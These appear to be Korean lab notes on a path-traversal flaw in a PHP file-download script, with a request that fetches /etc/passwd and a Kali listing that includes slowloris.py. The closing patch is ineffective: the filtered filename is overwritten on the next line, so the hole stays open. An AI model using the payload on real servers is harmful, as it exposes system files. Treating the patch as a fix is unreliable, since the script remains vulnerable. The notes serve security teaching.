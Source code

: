 ```
GET /board/board_file_download.php?filename=dict.txt HTTP/1.1  // 원래 이렇게 뜨는데
GET /board/board_file_download.php?filename=../../../../../etc/passwd HTTP/1.1 // 이렇게 수정
```

홈페이지에서 다운로드 창 뜨면 다운로드하기

이건 실제로 무슨 파일인지 확인해보기

###### 칼리

root@kali-04:~/Downloads# ls -l

```
total 152
-rw-r--r-- 1 root root   1670 Oct 22 15:43 %2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
-rw-r--r-- 1 root root 149328 Oct  6 15:39 slowloris.py
```

root@kali-04:~/Downloads# vim %2F..%2F..%2F..%2F..%2Fetc%2Fpasswd 

-> 이건 아파치로 접근되기 때문에 아파치가 읽기 권한이 있는 파일만 다운로드 가능



###### 센트

[root@Linux-04 board]# ls -l /var/www/html/index.php 

```
-rw-r--r-- 1 root root 969 2017-06-10 21:43 /var/www/html/index.php
```

[root@Linux-04 board]# ls -l /etc/passwd

```
-rw-r--r-- 1 root root 1670 2020-10-16 15:50 /etc/passwd
```

-> 이 아이들은 r 권한이 있어서 다운로드 가능하다.



[root@Linux-04 board]# ls -l /etc/shadow

```
---------- 1 root root 1061 2020-10-16 15:50 /etc/shadow
```

-> r 권한 없어서 다운로드 불가능



### FILE Download 취약점(164p) 

[root@Linux-04 board]# vim board_file_download.php 

```
<?php
  $file_name = str_replace("../","",$_GET['filename']); -> 여기 추가
  $file_name = urldecode($_GET['filename']);
  $file_path = "./upload/$file_name";
  $file_size = filesize($file_path);

  header("Content-Type: application/x-octetstream");
  header("Content-Disposition: attachment; filename=".urlencode($file_name));
  header("Content-Transfer-Encoding: binary");
  header("Content-Length: $file_size");

  readfile($file_path);

 ?>

```
